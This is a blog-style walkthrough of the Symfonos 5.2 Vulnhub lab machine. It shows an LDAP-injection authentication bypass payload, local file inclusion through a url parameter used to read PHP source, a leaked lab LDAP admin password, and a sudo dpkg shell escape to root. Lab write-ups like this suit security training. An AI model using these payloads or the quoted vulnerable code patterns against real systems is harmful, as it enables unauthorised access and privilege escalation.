 ```yaml
---
layout: post
title: Symfonos 5.2 Vulnhub Walkthrough
subtitle: 
tags: [oscp, vulnhub]
---
```


This is a walkthrough for Symfonos 5.2 Vulnhub machine. The machine can be found at [Symfonos 5.2 Vulnhub](https://www.vulnhub.com/entry/symfonos-52,415/). I really wanted to write a walkthrough on this box because I learnt a lot about LDAP Injections and insecure coding practices from it. So, let's dive right into it!

## Enumeration
First, using the `autorecon` tool, I looked at the nmap scan of the machine. The following ports were open:

```bash
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:70:13:77:22:f9:68:78:40:0d:21:76:c1:50:54:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfhCNEk87fJIphggJ/K7+9vu2pm9OmRmuYZ4tIPDCr42LgzGp6EIWpz5FXo98F1iq1pNASEjcMqqpCxuhhOFSlf3pPA00Rka4/0pmlmtIl5jSE6cpexIXzINzLC6YXDt59JFuOi0PgsbBYbIWsRdNxPboBDELeilgNairkx3wakNr39Di1SmrpQyQ54EbpusuNZPZL9eBjgEScXrx+MCnA4gyQ+VwEbMXDBfC6q5zO+poZQ1wkAqg9+LFvd2RuwGB+06yFfVn84UpBh4Fxf+cpnKG0zJalRfI8ZhUgnvEnU7cIp8Yb94pUzXf1+m1Vsau8+0myI0aaljHt4RfSfI3T
|   256 a8:06:23:d0:93:18:7d:7a:6b:05:77:8d:8b:c9:ec:02 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHUvkrh2jAIVELCTy59BYzC3B0S4/jKkYOmS6N7anjrxvHW59thSrs7+3pvVhM5X0Og+FV4zkrMMfvw5jwTygeA=
|   256 52:c0:83:18:f4:c7:38:65:5a:ce:97:66:f3:75:68:4c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKxA6/wOoEAbxcDJX8zdCYFQzulYfpxK4n4e7bUSUeeC
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     syn-ack ttl 63 OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl? syn-ack ttl 63
```

From the ports, LDAP sticks out particularly. Perhaps that may come in useful later. 

### Enumerating Port 80
Running a quick gobuster shows that the following `.php` pages are available.

![gobuster scan](../assets/img/symfonos5/gobuster.png)

Navigating to `/admin.php` reveals a login form. However, after trying common SQL Injection payloads, this form does not seem be vulnerable to SQLi.

My initial thought process was to enumerate LDAP for potential users and possibly brute-force the form with a known user. 
However, running the following command did not yield any results. Perhaps we are not allowed to access it without the right credentials. 

```bash
ldapsearch -h 192.168.204.141 -x
``` 

## Exploitation 
A while later, the idea dawned on me that this could be LDAP Injection. I had heard of the concept prior to doing this box, but did not know much about it. As such, I went to read up a bit on LDAP Injections. 

### A Short Primer on LDAP Injections
Lightweight Directory Access Protocol (LDAP) is a protocol that manages directory information. Directory information is stored in a tree-like hierarchical structure. Information is modelled as an entry which contains attributes, and entries are typically real world organizations, people and objects. 

LDAP Injections occur in a similar manner to SQL injections, when user input is used directly in a query without adequate sanitization. 

One of the common vectors of an LDAP Injection is an authentication form like in this box. The vulnerable code often takes a shape as follows:
```php
$filter = "(&(uid=$username)(userPassword=$password))";
$result = ldap_search($ldap_ch, "dc=symfonos,dc=local", $filter);
```

As one can see, `$username` and `$password` are taken directly from user input and inserted into the query, allowing for manipulation through the use of `*` or `%00` to access all records and terminate the query prematurely etc. 

### Back to Symfonos 5
After suspecting this form could be vulnerable to LDAP Injection, I sent the request to Burp Intruder and ran an attack on the username parameter with various common LDAP Injection payloads. 

![burp](../assets/img/symfonos5/burp.png)

As seen from the picture, a few of them returned with positive results, with one of the payloads being `*))%00`. 

In response to the query above, such a payload would pre-maturely terminate the query.
```php
$filter = "(&(uid = *))%00 #ignore the rest because it terminates at null-byte
```

As such, this results in a trivial authentication bypass and we are in to the portal! 

### LFI? gfi!
Navigating around the pages, we immediately see that the url of the `portraits.php` page looks vulnerable to LFI, with a url as follows.

```bash
http://192.168.204.141/home.php?url=http://127.0.0.1/portraits.php
```

![lfi](../assets/img/symfonos5/lfi.png)

Using the php filter, I was able to extract the source code for `home.php` in base64. Upon decoding, we can see the vulnerable portion of code to LFI was as follows

```php
if (!empty($_GET["url"]))
{
    $r = $_GET["url"];
    $result = file_get_contents($r);
}
```
Seems like it'll be vulnerable to both LFI and RFI! My first thought process was try a reverse shell but all it did was print my reverse shell payload on the screen. 

### Back to LDAP
Ahhh, LDAP strikes again. 

Using the same techniques to retrieve the source code for `home.php`, I retrieved `admin.php` and saw something interesting in the code for the login form: admin credentials for LDAP!

```php
$bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "qMDdyZh3cT6eeAWD");

    if (!$bind)
    {
        return false;
    }

    $filter = "(&(uid=$username)(userPassword=$password))";
    $result = ldap_search($ldap_ch, "dc=symfonos,dc=local", $filter);
```

As such, we can re-run `ldapsearch` to see if it gives us any new information. This time, I ran it through nmap.

```bash
nmap -p 389 --script ldap-search --script-args 'ldap.username="cn=admin,dc=symfonos,dc=local",ldap.password=qMDdyZh3cT6eeAWD' 192.168.204.141
```

And we get Zeus' credentials!

![zeus creds](../assets/img/symfonos5/zeus_creds.png)

We can then SSH into Zeus' box. 

## Privilege Escalation (nothing more almighty than the ruler of all gods but ROOT)
A quick check on Zeus' sudo privileges reveals the following.

![pe](../assets/img/symfonos5/pe.png)

Aha! A quick search in GTFOBins later, and we can achieve root via the following:
```bash
sudo -l dpkg
!/bin/sh
```

## Learning Points
1. LDAP Injections were my key takeaway from this box. Thanks to this box, I now know basic insecure coding practices that could potentially lead to LDAP Injections. 

2. `ldapsearch` does not always have to be used at the initial stages of our enumeration. Sometimes, we may need to dig around for adequate credentials first. However, LDAP often will reveal sensitive information about users!

3. LFI/RFI is not just about reading sensitive files on the host machine or trying to get a reverse shell! Sometimes, we should check the source code or `config.php` for any sensitive information that we may be able to access. 

Hope you enjoyed this little write-up! To more learning ahead :)